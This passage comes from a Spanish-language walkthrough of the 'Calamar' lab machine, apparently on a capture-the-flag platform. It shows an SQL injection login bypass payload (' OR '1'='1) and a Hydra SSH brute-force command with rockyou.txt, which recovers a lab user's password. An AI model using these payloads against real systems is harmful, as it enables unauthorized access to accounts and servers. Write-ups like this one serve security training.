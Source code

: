 ```bash
[10:56:07] 403 -    2KB - /images/
[10:56:12] 200 -    2KB - /login.php

Task Completed
```
A diferencia del primer intento detectamos un `login.php`, vamos a probar.

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/HackerLabs/Calamar/5.png?raw=true "Login")

¿Recuerdan dónde dijimos que podríamos probar el payload de SQL Injection? Bueno, adivinen... :)


### 3.3 Acceso al portal

Probemos.

```bash
usuario: admin
contraseña: ' OR '1'='1

```

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/HackerLabs/Calamar/6.png?raw=true "Login portal")


¡Estamos dentro!

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/HackerLabs/Calamar/7.png?raw=true "dentro del portal")

Ahora, observamos que tenemos acceso a una lista de tareas. Vamos a revisarla.

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/HackerLabs/Calamar/8.png?raw=true "to do list")

Nos dice que tiene una nueva página web que esta codificada en base64 para que nadie pueda acceder y que es `lee_archivos`.

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/HackerLabs/Calamar/9.png?raw=true "codificando")

Observamos la codificación. También podríamos hacerlo desde Kali, pero decidí hacerlo a través de un codificador en línea.

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/HackerLabs/Calamar/10.png?raw=true "probando url")

Colocamos el resulado en el explorador 

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/HackerLabs/Calamar/11.png?raw=true "listando directorios")

Ahora con el usuario `superadministrator` vamos a probar algo de fuerza bruta para ver si podemos encontrar la contraseña.

### 3.4 Fuerza Bruta con Hydra

Probaremos encontrar la contraseña de `superadministrator`.

```bash
┌──(root㉿v4lcyfer)-[/home/kali/Downloads]
└─# hydra -t 64 -l superadministrator -P rockyou.txt ssh://192.168.1.49 -I                   
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-02 11:32:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344398 login tries (l:1/p:14344398), ~224132 tries per task
[DATA] attacking ssh://192.168.1.49:22/
[22][ssh] host: 192.168.1.49   login: superadministrator   password: princesa
```